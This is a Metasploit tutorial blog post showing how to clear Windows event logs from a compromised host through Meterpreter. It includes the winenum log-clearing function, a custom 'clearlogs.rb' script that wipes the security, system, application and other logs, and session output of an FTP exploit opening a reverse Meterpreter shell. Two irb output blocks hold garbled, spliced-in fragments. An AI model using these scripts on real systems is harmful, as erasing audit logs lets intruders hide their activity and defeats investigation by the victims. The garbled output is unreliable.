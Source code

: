 ```yaml
---
draft: false
title: MSF Log Management
linkTitle: Log Management
translationKey: msf-log-management
weight: 290
date: 2017-06-05T13:21:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will look at how the 'winenum' script codes provided by meterpreter work to clear the logs of the target computer.
url: /msf-log-management/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
---
```

Sometimes you may want to clear the logs of the operations you perform on the target computer. For this clearing process, let's first look at how the `winenum` script codes provided by meterpreter work. You can find the script file under your Metasploit Framework folder at `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb`. There are many sections in this file. For now, we will only deal with the `# Function for clearing all event logs` section.

```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs = [
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  ]
  print_status("Clearing Event Logs, this will leave and event 517")
  begin
    evtlogs.each do |evl|
      print_status("\tClearing the #{evl} Event Log")
      log = @client.sys.eventlog.open(evl)
      log.clear
      file_local_write(@dest,"Cleared the #{evl} Event Log")
    end
    print_status("All Event Logs have been cleared")
  rescue ::Exception => e
    print_status("Error clearing Event Log: #{e.class} #{e}")

  end
end
```

Those interested in programming will easily understand the codes and how the function works. Let's briefly explain what the above codes do. The `evtlogs.each do |evl|` loop opens and cleans Windows' 'security', 'system', 'application', 'directory service', 'dns server' and 'file replication service' logs, respectively.

Now, instead of the ready script, let's create and save our own script code by taking the example from the file above. For this, we will use Ruby coding in Meterpreter. You can see the Windows Log status before cleaning from the picture below.

![Eventlog](/images/Eventlog-00.png)

Since we only want to clean the 'system' logs, we will only use the `log = client.sys.eventlog.open('system')` status from the loop above.

## We are testing in this part

First, we must have opened a meterpreter shell on the target computer.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 2 opened (172.16.104.130:4444 -> 172.16.104.145:1246)
```

Then, we run the Ruby coder from the meterpreter shell with the `irb` command and paste the following codes.

```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
> log = client.sys.eventlog.open('system')
=> #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"=>#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```
Now, let's check whether the logs are cleared with the `log.clear` command in meterpreter.

```bash
> log.clear
=> #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

![Eventlog](/images/Eventlog-01.png)

We tried a simple log cleaning using Ruby coder in Meterpreter and we were successful in our check. We can write our own script codes using this approach.

## Clearing All Logs

Writing the following codes to a file Save it in the `/usr/share/metasploit-framework/scripts/meterpreter/` folder with the name `clearlogs.rb`.

```bash
evtlogs = [
 'security',
 'system',
 'application',
 'directory service',
 'dns server',
 'file replication service'
 ]
print_line("Clearing Event Logs, this will leave an event 517")
evtlogs.each do |evl|
 print_status("Clearing the #{evl} Event Log")
 log = client.sys.eventlog.open(evl)
 log.clear
end
print_line("All Clear! You are a Ninja!")
```

Now you can run these newly created script codes in the newly opened Meterpreter sessions.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1253)

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```

As seen in the picture below, all logs have been cleared. Only process number 517 remains. Since that process is still the process where meterpreter is running, it is still active.

![Eventlog](/images/Eventlog-03.png)

In this article, we tried to write our own script file and clear the log by taking the Scripts in the Metasploit Framework as an example. We recommend that you also examine the other script files in the `/usr/share/metasploit-framework/scripts/meterpreter/` folder. This way, you will learn the possibilities you have.

